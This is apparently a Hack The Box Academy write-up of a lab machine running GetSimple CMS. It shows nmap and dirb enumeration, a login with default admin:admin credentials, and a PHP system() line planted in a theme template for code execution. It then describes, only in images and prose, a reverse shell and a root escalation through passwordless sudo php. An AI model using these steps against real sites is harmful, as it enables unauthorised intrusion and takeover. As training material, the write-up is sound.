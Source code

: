 # Hack the Box Academy - Tier 1 Module

## Getting started - Knowledge check - Final challenge write up

## Enumeration / Recon

Nmap Scan - Check open ports

```bash
nmap -sCV -oN nmap.txt ip_addr
```

```bash
# Nmap 7.94SVN scan initiated Thu Jun  6 21:22:22 2024 as: nmap -sCV -oN nmap.txt -v 10.129.194.173
Nmap scan report for 10.129.194.173
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  6 21:22:34 2024 -- 1 IP address (1 host up) scanned in 12.30 seconds
```

> We see that there are only 2 ports open, SSH and HTTP, we can do some more recon on the web server as it is most likely our way to get a foothold on the machine.

### Web Enumeration

```bash
$ dirb http://10.129.194.173 -o dirb.out
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.out
START_TIME: Fri Jun  7 14:34:45 2024
URL_BASE: http://10.129.194.173/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.194.173/ ----
==> DIRECTORY: http://10.129.194.173/admin/                                                                                                                                                  
==> DIRECTORY: http://10.129.194.173/backups/                                                                                                                                                
==> DIRECTORY: http://10.129.194.173/data/                                                                                                                                                   
+ http://10.129.194.173/index.php (CODE:200|SIZE:5485)                                                                                                                                       
==> DIRECTORY: http://10.129.194.173/plugins/                                                                                                                                                
+ http://10.129.194.173/robots.txt (CODE:200|SIZE:32)                                                                                                                                        
+ http://10.129.194.173/server-status (CODE:403|SIZE:279)                                                                                                                                    
+ http://10.129.194.173/sitemap.xml (CODE:200|SIZE:431)                                                                                                                                      
==> DIRECTORY: http://10.129.194.173/theme/
```

We have an interesting directory /admin/
The webpage gives us a login prompt, checking most common default credentials, admin:admin and we are in.
At the bottom of the admin dashboard we can see that the webpage is running on - GetSimpleCMS 3.3.15
There are a lot of explpiots availalbe online but we can try to get a shell by manual exploitation.

One interesting thing I noticed the web page has is the theme module, we can edit themes which are a bunch of php files that can be run on the web server and they have no input sanitization and we can run the PHP system command.
To get to the theme editing page follow the steps below:

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6898f45a-250b-42f7-9ab6-3fb3e7af28cc)

It should take you to the Innovation theme default template page,
delete all the php code from the default template and put the following code -

```bash
<?php system ('id'); ?>
```

> NOTE: I lost access to the machine and had to spawn it again, please dont get confused if you see 2 different IPs.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/b7372da9-83ca-4572-8414-519e5dae9d94)

After making the changes, copy the url mentioned in the same webpage, it should look something like ```http://gettingstarted.htb/theme/Innovation/template.php```
If you are unable to visit this website make sure to edit the /etc/hosts file with the following command - sudo nano /etc/hosts
It should open the hosts file and at the bottom of the file add the following 
```bash
10.129.42.249    gettingstarted.htb
```

We have code execution !!!
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/9b24239d-3f83-4bbc-8bef-4a11166e2c41)

### Initial Foothold

Lets start up a ncat listener, you can also use nc
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/605147ff-77d5-4031-b0a8-bed22a78a4f8)


We will use a bash reverse shell payload.
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/25922b82-8a6b-4280-98a8-8df73ef37a51)


Save changes and refresh the theme/Innovation/template.php page
We get a reverse shell, lets use python pty to stabilize the shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/00b94010-da73-41d5-84d1-45c48e3f05e5)


Cool, now we can do Ctrl+c to stop processes and use Tab auto complete.

# Privilege Escalation

We are logged in as www-data, lets see what the user can do, first things first lets check the kernel version and if we can run any commands using sudo.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/a817684d-1c14-48ec-acb6-cfa632bd8822)


Awesome, we can run ```/usr/bin/php``` using ```sudo``` without a password.
We can run php commands using the command line using the -r option, lets try to get the id.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/da61432c-4131-47e4-8d6b-fbe3ede7e949)

PWN3D !!! I am ROOT !!!

You can get the flags from ```/root/root.txt and /home/mrb3n/user.txt```

Thanks for reading, if this helped you, please respect on HTB Labs - 
